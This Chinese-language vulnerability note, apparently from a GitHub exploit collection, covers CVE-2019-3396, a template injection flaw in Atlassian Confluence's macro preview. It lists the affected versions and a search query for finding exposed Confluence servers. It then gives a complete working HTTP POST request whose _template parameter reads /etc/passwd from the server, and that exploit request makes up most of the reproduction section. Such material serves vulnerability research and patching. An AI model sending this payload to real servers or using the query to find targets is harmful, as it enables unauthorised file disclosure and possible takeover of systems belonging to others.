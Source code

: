 # Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

```
Atlassian Atlassian Confluence < 6.6.12
Atlassian Atlassian Confluence 6.7.0-6.12.2
Atlassian Atlassian Confluence < 6.13.3
Atlassian Atlassian Confluence < 6.14.2
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面

![image-20220524142010885](images/202205241421261.png)

发送请求包

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```